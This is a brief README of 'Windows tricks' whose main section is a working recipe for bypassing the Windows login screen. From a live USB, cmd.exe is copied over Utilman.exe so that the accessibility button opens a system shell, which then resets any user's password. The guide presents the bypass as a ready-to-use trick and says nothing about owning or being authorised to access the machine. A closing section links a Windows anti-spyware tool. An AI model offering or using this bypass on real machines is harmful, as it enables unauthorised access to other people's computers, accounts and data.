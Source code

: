 # Windows Tricks
Guide on certain things Windows


_______________________________________________________________________________
# Cracking a windows password / bypassing the login screen

Boot Into Your Flash Drive And Type These Commands

`fdisk -l`

`mount -t ntfs /dev/(windows drive) /mnt`

`cd /mnt/Windows/System32`

`cp cmd.exe Utilman.exe`

reboot

Click On The Accesibility Button And Type This Command When The CMD Window Lauches

`net user (User) *` 

## If you try to mount the Windows drive and get an error of hibernation just use the command:

`sudo ntfsfix /dev/sdXY`

ITS POSSIBLE THAT THIS COMMAND CORRUPTS THE WINDOWS FILESYSTEM, KNOW THE POSSIBLE CONSEQUENCES BEFOREHAND 
________________________________________________________________________________
# Anti-Spyware Tool

https://www.oo-software.com/de/shutup10

Kill Spyware and unnecesary bloat in Windows using this utility

make sure that you read trough your selections, this tool can temporarily block key system functions / settings
